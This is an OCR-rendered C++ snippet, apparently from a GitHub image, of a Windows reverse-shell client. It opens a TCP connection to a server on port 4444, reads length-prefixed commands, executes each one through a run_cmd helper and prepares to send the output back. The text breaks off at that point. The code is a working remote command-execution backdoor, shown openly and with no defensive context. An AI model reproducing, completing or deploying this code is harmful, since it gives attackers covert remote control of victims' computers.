 ```cpp
int main()
{

	WSADATA wsaData;
	WSAStartup(MAKEWORD(2, 2), &wsaData);

	// Connect to the server
	// 1. Listen for command
	// 2. Execute the command
	// 3. Send back the output
	// Goto 1

	struct addrinfo* result = NULL, * ptr = NULL, hints;

	ZeroMemory(&hints, sizeof(hints));
	hints.ai_family = AF_INET;
	hints.ai_socktype = SOCK_STREAM;
	hints.ai_protocol = IPPROTO_TCP;

	if (getaddrinfo("", "4444", &hints, &result) != 0)
	{
		printf("getaddrinfo failed.\n");
	}

	SOCKET sock = INVALID_SOCKET;

	sock = socket(result->ai_family, result->ai_socktype, result->ai_protocol);

	if (sock == INVALID_SOCKET)
	{
		printf("socket failed.\n");
		return 1;
	}

	connect(sock, result->ai_addr, (int)result->ai_addrlen);

	while (true)
	{

		int msg_len = 0;
		std::string msg = "";

		// recv first 4 bytes for msg length
		recv(sock, reinterpret_cast<char*>(&msg_len), sizeof(int), 0);
		msg_len = ntohl(msg_len);

		// recv msg length bytes
		std::vector<char> buffer(msg_len);

		int total = 0;
		int recieved = 0;

		while (total < msg_len)
		{
			recieved = recv(sock, buffer.data() + total, msg_len - total, 0);
			total += recieved;

		}

		
		std::string cmd_res = run_cmd(buffer.data());

		msg_len = htonl(cmd_res.size());
```